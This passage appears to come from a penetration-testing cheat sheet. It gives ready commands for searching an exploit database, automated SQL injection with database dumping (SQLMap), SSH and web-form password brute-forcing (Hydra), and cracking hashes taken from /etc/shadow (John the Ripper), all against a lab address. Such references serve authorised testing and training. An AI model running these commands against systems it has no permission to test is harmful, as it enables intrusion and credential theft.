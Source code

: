 ### SearchSploit
Offline exploit database search tool.

```bash
# Search for exploits
searchsploit apache 2.4.49

# Copy exploit to current directory
searchsploit -m 50383

# Update database
searchsploit -u
```

### SQLMap
Automated SQL injection tool.

```bash
# Basic scan
sqlmap -u "http://10.10.10.10/page.php?id=1"

# With cookie authentication
sqlmap -u "http://10.10.10.10/page.php?id=1" --cookie="PHPSESSID=abc123"

# Dump database
sqlmap -u "http://10.10.10.10/page.php?id=1" --dump
```

## Password Attacks

### Hydra
Online password cracking tool.

```bash
# SSH brute force
hydra -l user -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.10

# HTTP POST form
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.10 http-post-form "/login.php:username=^USER^&password=^PASS^:Login failed"
```

### John the Ripper
Offline password cracker.

```bash
# Crack Linux shadow file
unshadow /etc/passwd /etc/shadow > hashes.txt
john hashes.txt

# Crack Windows hashes
john --format=NT hashes.txt

# Use wordlist
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```
